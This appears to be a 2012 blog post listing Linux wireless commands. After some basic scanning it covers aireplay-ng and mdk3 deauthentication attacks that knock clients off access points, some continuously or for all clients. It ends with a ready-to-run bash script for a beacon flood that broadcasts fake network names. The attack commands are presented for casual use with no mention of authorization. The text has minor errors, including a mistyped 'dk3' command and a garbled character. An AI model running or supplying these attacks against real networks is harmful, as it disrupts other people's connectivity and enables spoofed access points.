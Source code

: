 ﻿---

title:  Wireless Fun with Aircrack and Others
date:   2012-11-05 00:00:00 -0500
categories: IT
---

A short list of some things you can do with wireless on a linux box. Have fun.

***Determine Modes your NIC is capable of.***
```powershell
airmon-ng (find PHY# for your NIC)
iw phy phy1 info | grep â€“A8 modes
```
***Passive Scan (Should not generate any frames)***
```powershell
iw dev wlan0 scan passive | grep SSID
```
***Active Scan***
```powershell
iw dev wlan0 scan | grep SSID
airmon-ng start wlan0
airodump-ng mon0
iwconfig wlan0 channel #
iwconfig wlan0 essid <ssid>
iwconfig wlan0 mode managed
```
***Deauthorization***
```powershell
iwconfig mon0 channel #
aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:34:30:30 ath0
```
- -0 means deauthentication
- 1 is the number of deauths to send (you can send multiple if you wish); 0 means send them continuously
- -a 00:14:6C:7E:40:80 is the MAC address of the access point
- -c 00:0F:B5:34:30:30 is the MAC address of the client to deauthenticate; if this is omitted then all clients are deauthenticated
- ath0 is the interface name

***Deauthorization with ***MDK3***
```powershell
airmon-ng start wlan0
dk3 mon0 d
```
or
```powershell
mdk3 mon0 d -w whitelist (deauth everything not listed in file)
```
or
```powershell
mdk3 mon0 d -b blacklist (deauth everything listed in file)

d - deauthorization mode
w - whitelist
b - blacklist```
***Broadcast Network Names with MDK3***
```powershell
airmon-ng start wlan0
mdk3 mon0 b -c 11 -f ssid_names
```
- b - beacon flood mode
- c - channel
- f - text file with ssid names
Everything you need to run a beacon flood in one script.
```powershell
networks=(
"FreeWifi"
"FBI Van #12"
"Customer Wireless"
"Visitors"
"ATTWifi"
"Verizon Hotspot"
"l33t haxor net"
)

if [ -f ssid_names ]
then
echo -e "\e[1;31mDeleting list of network names\e[0m"
rm -f ssid_names
fi

echo -e "\e[1;32mCreating list of network names\e[0m"
for i in "${networks[@]}"
do
echo $i >> ssid_names
done

if [[ -n $(airmon-ng | grep mon0) ]]
then
echo -e "\e[1;32mMon0 interface exists\e[0m"
else
echo -e "\e[1;32mStarting AirMon on wlan0\e[0m"
airmon-ng start wlan0
fi

echo -e "\e[1;32mBegin beacon flood on mon0\e[0m"
mdk3 mon0 b -c 11 -f ssid_names
```

- <a href="http://www.cyberciti.biz/tips/linux-find-out-wireless-network-speed-signal-strength.html" target="_blank">8 Linux Commands: To Find Out Wireless Network Speed, Signal Strength And Other Information</a>
- <a style="text-decoration: underline;" title="airplay-ng Deauthentication" href="http://www.aircrack-ng.org/doku.php?id=deauthentication" target="_blank">aircrack-ng Deauthorize</a>
- <a href="http://www.aircrack-ng.org/doku.php?id=airmon-ng" target="_blank">airmon-ng</a>
- <a href="http://www.linuxcommand.org/man_pages/iwconfig8.html" target="_blank">iwconfig man page</a>
- <a href="http://wireless.kernel.org/en/users/Documentation/iw" target="_blank">iw command info</a>



